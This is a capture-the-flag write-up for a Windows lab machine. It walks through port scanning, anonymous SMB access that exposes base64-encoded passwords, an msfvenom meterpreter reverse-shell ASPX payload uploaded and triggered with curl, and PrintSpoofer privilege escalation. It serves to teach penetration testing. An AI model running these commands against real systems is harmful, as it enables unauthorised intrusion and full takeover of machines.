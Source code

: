 ﻿# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :---- | :-------------------- |
| 80 | `http` |
| 135 | `msrpc` |
| 139 | `netbios-ssn?` |
| 445 | `tcp (SMB)` |
| 3389 | `ms-wbt-server (RDP)` |
| 49663 | `http` |
| 49667 | `msrpc` |
| 49669 | `msrpc` |
| | |
A lot of ports are open, let's proceed to check the website located at port `80`


![Pasted image 20241122171440.png](../../IMAGES/Pasted%20image%2020241122171440.png)

Nothing useful is in here, let's skip the fuzzing part as it doesn't contain anything too.

As shown in the open ports, we have RDP on `3389` and also SMB on `445`, let's try to enumerate SMB to check if there's anything useful.





# RECONNAISSANCE
---


## SMB Enumeration

Let's run the following command to list the shares in `SMB`:

`smbclient -l IP`

![Pasted image 20241122173253.png](../../IMAGES/Pasted%20image%2020241122173253.png)

We find a share `nt4wrksv`, let's research to check if there's a way to access to it:

```ad-hint

#### How to access?
----

Command used

`smbclient \\\\<Victim Ip>\\nt4wrksv`

If we use that, we are able to connect even without the password:


```

We are in and found a `passwords.txt` file, let's download it and take a look at it:

![Pasted image 20241122173939.png](../../IMAGES/Pasted%20image%2020241122173939.png)

Seems like two passwords, both are `base64` encoded, let's decode them:

![Pasted image 20241122174102.png](../../IMAGES/Pasted%20image%2020241122174102.png)

![Pasted image 20241122174229.png](../../IMAGES/Pasted%20image%2020241122174229.png)

We got the following credentials:

```ad-note

`Bob` : `!P@$$W0rD!123`
`Bill` : `Juw4nnaM4n420696969!$$$`


```

Let's scan the machine further to check if there's anything vulnerable, for this, I will use the following Nmap scan:

```ad-hint

##### Nmap
----

If we use: `nmap -Pn -script vuln IP`, we get the following:


The `3389` port is vulnerable to RCE. let's get a shell.

```
# EXPLOITATION
---

Nice, for the exploitation part we need to do the following:

```ad-summary
### Step to step to get the shell
---


1. Use msfvenom and create the reverse shell: `msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=OURIP lport=ourport -f aspx -o reverse_shell.aspx`
2. Upload the reverse shell file to the network share:
3. Use curl to retrieve the reverse shell: `curl http://IP:49663/nt4wrksv/reverse_shell.aspx`
4. Let's use metasploit's multi handler to create a listener:


Let's run the multi handler and use curl at the same time to get our shell:




```



Nice, let's do privilege escalation



# PRIVILEGE ESCALATION
---



For privilege escalation, we need to investigate the machine, let's take a look at the privileges using `getprivs`:


![Pasted image 20241122182831.png](../../IMAGES/Pasted%20image%2020241122182831.png)

Most interesting one is the `SeImpersonatePrivilege`, we can impersonate, for this privilege escalation, we'll be impersonating `PrintSpoofer`:

```ad-note

Script: [GITHUB LINK](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe)
```

Once we've put the script inside of our machine using smb, we can do the following:

![Pasted image 20241122183155.png](../../IMAGES/Pasted%20image%2020241122183155.png)

Switch to shell and go to this route: 

`c:/inetpub/wwwroot/nt4wrksv`

![Pasted image 20241122183251.png](../../IMAGES/Pasted%20image%2020241122183251.png)

We can now see our `PrintSpoofer64.exe` program, we need to do the following in order to get a reverse shell:

`PrintSpoofer64.exe -i -c powershell.exe`

We are taking advantage of the `SeImpersonatePrivilege`, let's get our root shell:


![Pasted image 20241122183438.png](../../IMAGES/Pasted%20image%2020241122183438.png)

And just like that, CTF is done.

